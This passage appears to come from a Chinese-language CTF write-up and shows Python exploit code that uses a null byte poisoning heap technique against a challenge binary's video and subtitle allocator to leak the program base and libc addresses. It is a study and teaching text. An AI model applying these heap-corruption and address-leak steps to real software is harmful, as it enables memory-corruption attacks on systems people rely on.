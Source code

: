 这个时候，再`create_video`只要data字段不会被分到0x60的chunk，类就会从fastbin里拿，而data就会从topchunk里面拿，这样就能有null byte poison的利用条件了。

接下来便是null byte poison利用，基本上跟how2heap上面差不多。首先新建一个`subtitle`，然后这个的类和data都会从topchunk里面取，其data的chunk作为chunk a，然后chunk b2先是用来作为一个video的data，再分配一个video的chunk在相同的位置，同时后面也有一个unsorted bin，所以一下子可以把程序基址和libc都leak出来。注意最后一个chunk很重要，不然就不是unsorted bin而是topchunk了，这样libc就leak不出来

```python
create_subtitle(0x101, "A" * 0x101) #5
#take from topchunk

create_video("A" * 0x300 + p64(0x200) + p64(0x120), 0x310) #6
create_video("c", 0x100) #7
#take from topchunk

remove(idx+6)
#put into unsorted bin

#0x101 + 0xffffffff == actual size you want
recreate_subtitle(0xffffffff, "A" * 7 + p64(0x201)) #5
#this will also free a 0x111 chunk
create_video("consume 0x111 chunk", 0x100) # 8


create_video("chunk b1", 0x80) #9
create_video("A" * 0x160, 0x160) #10 b2 is its content
#now null byte poisoning done, we can take stuff from that 0x201 chunk
#now bins are clear
create_video("prevent topchunk consolidation", 0x28) # 11


remove(idx + 9)#free b1
remove(idx + 7)#free c

#null poison exploitation done!
#now bins are clear and b and c are merged to unsorted bin chunk
#take 0x90 chunk to arrive b2

create_video("video", 0x20) #12
#will malloc 0x50 and 0x20, consuming 0x90

create_video("struct to leak everything", 0x20) #13
#consum 0x90

leak_data = ""
leak_data = play_video(idx + 10)
prog_addr = u64(leak_data[:8]) - 0x203C70
libc_addr = u64(leak_data[0x90:0x98]) - (0x7f3be0421b78 - 0x7f3be005d000)
assert (prog_addr & 0xfff == 0) and (prog_addr & 0xfff == 0)
print hex(prog_addr)
print hex(libc_addr)
```
